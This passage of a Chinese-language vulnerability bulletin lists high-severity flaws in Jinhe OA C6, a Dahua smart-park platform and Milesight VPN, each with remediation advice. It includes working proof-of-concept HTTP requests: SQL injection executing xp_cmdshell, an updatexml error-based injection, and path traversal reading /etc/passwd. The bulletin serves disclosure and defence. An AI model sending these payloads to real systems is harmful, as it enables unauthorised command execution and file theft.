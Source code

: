 **漏洞描述：**金和OA未对用户的输入进行有效的过滤，直接执行了传递的SQL语句，导致系统出现SQL注入漏洞。

**漏洞等级：**高危

**漏洞类型：**0day/1day/nday

**影响版本：**C6

**漏洞详情：**

POST /C6/Control/GetSqlData.aspx/.ashxHost: ip:port User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36Connection: closeContent-Length: 189Content-Type: text/plainAccept-Encoding: gzipexec master..xp_cmdshell 'ipconfig'



**处置建议：**升级版本或安装厂商官方补丁，用于提升系统自身安全性，同时，可通过安全设备快速感知漏洞利用行为并进行预警或阻断。



#####             6.     **大华智慧园区综合管理平台 searchJson SQL注入漏洞**

**漏洞描述：**大华智慧园区综合管理平台未对用户的输入进行有效的过滤，直接执行了传递的SQL查询语句，导致系统出现SQL注入漏洞。

**漏洞等级：****高危**

**漏洞类型：**0day/1day/nday

**影响版本：****-**

**漏洞详情：**

GET /portal/services/carQuery/getFaceCapture/searchJson/%7B%7D/pageJson/%7B%22orderBy%22:%221%20and%201=updatexml(1,concat(0x7e,(select%20md5(388609)),0x7e),1)--%22%7D/extend/%7B%7D HTTP/1.1Host: 127.0.0.1:7443User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15Accept-Encoding: gzip, deflateConnection: close



**处置建议：**升级版本或安装厂商官方补丁，用于提升系统自身安全性，同时，可通过安全设备快速感知漏洞利用行为并进行预警或阻断。



#####             7.     **Milesight VPN server.js 任意文件读取漏洞**

**漏洞描述：Milesight VPN server.js 任意文件读取漏洞**

**漏洞等级：****高危**

**漏洞类型：任意文件读取**

**影响版本：-**

**漏洞详情：**

**GET /../etc/passwd HTTP/1.1** **Host: Accept: /** **Content-Type: application/x-www-form-urlencoded**



**处置建议：**升级版本或安装厂商官方补丁，用于提升系统自身安全性，同时，可通过安全设备快速感知漏洞利用行为并进行预警或阻断。

#####             8.     **Eramba任意代码执行漏洞**
